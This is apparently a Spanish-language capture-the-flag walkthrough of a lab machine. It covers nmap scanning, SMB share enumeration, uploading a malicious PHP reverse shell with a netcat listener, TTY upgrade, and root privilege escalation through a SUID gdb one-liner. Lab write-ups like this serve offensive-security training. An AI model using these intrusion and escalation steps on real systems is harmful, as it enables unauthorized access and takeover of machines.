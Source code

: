 
-------
### Fase de Escaneo

Primero realizamos un arp-scan para saber la ip de la máquina objetivo.

```
sudo arp-scan -I eth0 --localnet
```

Realizamos un escaneo de los puertos abiertos de la máquina

```
sudo nmap -p- --open- -sS --min-rate 5000 -vvv -n -Pn <ip> -oG allPorts
```

Hacemos un escaneo de las versiones de los puertos abiertos.

```
nmap -sCV -p<puertos><ip> -oN Targeted  
```

---
### Fase de enumeración

Hacemos una enumeración al puerto 445 el cual corre el servicio de smb.

>[!tip]
>Las carpetas que contienen "$" están previamente configuradas, las que no necesitan contraseñas son las que no los tiene.

```
smbclient\\\<ip>\\<carpeta>
```
---
### Fase de Explotación

una vez ya adentro del servicio de smb, subiermos un archivo php malicioso, para que nos otorgue una bash interactiva. 

>[!info]
> Utilizamos esta web para obtener el codigo que nos regrese una bash a nuesta ip. [reverseshell.com](https://www.revshells.com/)

subimos el archivo malicioso.

```
smb/> put shell.php
```

nos colocamos en modo escucha por el puerto que asignamos en el archivo php por netcat.

```
nc -lvnp 4444
```
---
### Tratamiento de la TTY

```
script /dev/null -c bash
``````

```
ctrl + z
stty raw -echo; fg
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```
---
### User Flag

Obtuvimos la primera flag.

```
cat /home/connection/local.txt
```
---
### Escalada de Privilegio

Con este comando buscamos desde la raíz los binarios con permisos SUID y los errores le decimos que los redirija al /dev/null

```
find / -perm -4000 2>/dev/null
```

Encontramos un binario para explotar.

```
/usr/bin/gdb
```

>[!tip]
>podemos utilizar esta página para realizar la explotación [GTFOBins](https://gtfobins.github.io/)

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
---
### Flag Root

Obtenemos la flag root y máquina totalmente pwned.

```
cat /root/proof.txt
```

